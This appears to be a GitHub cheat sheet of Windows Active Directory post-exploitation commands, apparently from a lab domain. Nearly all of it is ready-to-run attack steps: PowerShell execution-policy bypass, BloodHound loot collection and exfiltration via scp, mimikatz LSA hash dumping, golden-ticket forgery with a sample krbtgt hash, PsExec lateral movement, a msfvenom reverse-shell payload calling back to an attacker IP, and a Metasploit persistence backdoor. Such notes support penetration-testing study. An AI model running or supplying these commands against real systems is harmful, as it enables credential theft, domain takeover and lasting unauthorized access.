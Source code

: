 # Post exploitation
Following examples have been tested on Windows targets with a SSH connections

***Any question ? Here is the answer : https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/***

## Enumeration w/ PowerView
***CheatSheet*** : 
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

Starts powershell (-ep bypasses the execution policy of powershell allowing you to easily run scripts)
```cmd
powershell -ep bypass
```
We can now start PowerView (not any output is intended)
```ps
. .\Downloads\PowerView.ps1
```
- Enumerate domain users `Get-NetUser | select cn`
- Enumerate domain groups `Get-NetGroup`
- Enumerate selected domain groups `Get-NetGroup -GroupName *admin*`
- Enumerate shares `Invoke-ShareFinder`
- Gather system informations `Get-NetComputer -fulldata`

## Enumeration w/ BloodHound

Bloodhound is a graphical interface that allows you to visually map out the network. This tool along with SharpHound which similar to PowerView takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.

### 1. Getting loot w/ SharpHound -
```cmd
powershell -ep bypass
```
Launch BloodHound (SharpHound is the Windows version)  
Not any output is intended
```powershell
. .\Downloads\SharpHound.ps1 
```
Let's gather infos !
```powershell  
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```
Let's download loot.zip to our machine  
Multiples ways are availables  
Example w/ ssh (scp) :
```bash
scp Administrator@CONTROLLER:C:/Users/Administrator/20230424130956_loot.zip .
```
### 2. Mapping the network w/ BloodHound
launch neo4j and bloodhound in our machine
```bash
sudo neo4j console &
bloodhound
```
This will require you to change your bloodhound password  
Default - neo4j:neo4j

```
Drag and drop loot.zip inside bloodhound
```

```
Click on the top left three lines button 
Click on analisys and look at how strong bloodhound is
```
(When I upload my zip file, I have an incompatibility error)

## Dumping hashes w/ mimikatz
Start mimikatz and verify that you have admin perms (OK 20)
```cmd
.\mimikatz.exe
privilege::debug
```
Dump those hashes!
```mimikatz
lsadump::lsa /patch 
```
Time to crack !  

## Golden Ticket w/ mimikatz
### Create the golden ticket
Start mimikatz and verify that you have admin perms (OK 20)
```cmd
.\mimikatz.exe
privilege::debug
```
This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket
```mimikatz
lsadump::lsa /inject /name:USERNAME
exit
```
```cmd
dir
```
Basically, some new files are here, they are SID's
Adapt the following command to create the golden ticket and suit your conditions
```mimikatz
kerberos::golden /user:USERNAME /domain:EXAMPLE.local /sid:ONE_OF_THOSE_NEW_FILE_THAT_BELONGS_TO_THE_RIGHT_USER /krbtgt:PRIMARY_NTLM_HASH /id:500
```
Example :
```mimikatz
Kerberos::golden /user:Administrator /domain:CONTROLLER.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
```
### Use the golden ticket to access other machine
```mimikatz
misc::cmd
exit
```
List it
```cmd
dir \\Desktop-1\c$
```
Access it
```cmd
PsExec.exe \\Desktop-1 cmd.exe
```
## Enumeration w/ Server Manager
(This requires a RDP connection)
```
Start Windows Server Manager
```
```
Navigate to the tools tab and select the tool you want 
```
## Maintaining access w/ Metasploit
### Upgrade to meterpreter
1. We want to upgrade our shell to a meterpreter. to do so, we need to use msfvenom to generate a payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=LOCALIPADDR LPORT=4444 -f exe -o shell.exe
```
Example :
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.14.34 LPORT=4444 -f exe -o shell.exe
```
2. Transfer the payload to the target
```bash
scp shell.exe Administrator@CONTROLLER:shell.exe
```
3. Start and set up a multi/handler listener (ips, ports and payload need to match with the msfvenom payload)
```bash
msfconsole
use multi/handler
set LHOST 10.8.14.34
set LPORT 4444
set payload windows/meterpreter/reverse_tcp
run
```
4. Execute the payload on the target machine
5. Verify that you received a meterpreter shell

## Run persitence module
Now, we can background the session to run the persitence module
```msfconsole
CTRL+Z
use exploit/windows/local/persistence
sessions
set session RIGHT_SESSION_NUMBER
run
```
If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to windows/meterpreter/reverse_tcp allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.